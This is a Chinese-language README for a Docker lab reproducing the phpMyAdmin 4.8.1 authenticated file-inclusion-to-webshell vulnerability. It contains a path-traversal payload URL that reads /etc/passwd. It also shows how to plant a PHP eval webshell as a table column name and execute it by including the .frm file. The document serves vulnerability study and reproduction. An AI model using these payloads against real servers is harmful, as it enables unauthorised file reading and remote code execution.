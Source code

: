 # phpmyadmin 后台getshell漏洞

## 启动环境

```
docker-compose build
docker-compose up -d
```

## 文件读取漏洞
利用mysql的root‘密码读取漏洞登录后台

然后利用payload
```shell
http://127.0.0.1/index.php?target=db_sql.php%253f/../../etc/passwd
```


![](README/F348C0F8-98D1-4290-9BBD-4FB762A2BF6A.png)

## getshell漏洞
之前通过phpmyadmin调用mysql执行sql语句直接导出木马到网站的目录下，但是mysql 5.7限制了mysql导出的位置，但是利用mysql的数据的物理存储位置的方式是可以通过文件包含获得webshell

先利用 phpmyadmin创建一个数据库flask,然后创建一个shadow的表，创建名为 <?php eval($_GET[shadow]); ?>的列，当前数据库的物理存储路径是_var_lib/mysql

![](README/D6946A77-A26B-4D62-A78C-742A59DDE3E0.png)



![](README/163D3848-20B8-43C6-A584-E1DA7B9F2508.png)

```shell
http://127.0.0.1/index.php?shadow=phpinfo();&target=db_sql.php%253f/../../var/lib/mysql/flask/shadow.frm
```

![](README/D58C818E-B6E1-49B1-87E4-8A009FC3D409.png)





[【首发】phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485036&idx=1&sn=8e9647906c5d94f72564dec5bc51a2ab&chksm=e89e2eb4dfe9a7a28bff2efebb5b2723782dab660acff074c3f18c9e7dca924abdf3da618fb4&mpshare=1&scene=1&srcid=0621gAv1FMtrgoahD01psMZr&pass_ticket=LqhRfckPxAVG2dF%2FjxV%2F9%2FcEb5pShRgewJe%2FttJn2gIlIyGF%2FbsgGmzcbsV%2BLmMK#rd)


